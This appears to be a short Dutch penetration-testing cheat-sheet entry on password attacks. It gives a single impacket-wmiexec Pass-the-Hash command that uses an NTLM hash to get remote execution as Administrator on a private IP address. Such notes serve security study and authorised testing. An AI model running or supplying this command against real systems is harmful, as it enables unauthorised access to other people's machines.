 # 16.Password Attacks — Entry 36

## Categorie

PtH impacket wmiexec

## Commando

impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212

## Omschrijving

Pass-the-Hash attack via impacket-wmiexec

## Voorbeeld

_(empty)_

## Opmerkingen

_(empty)_

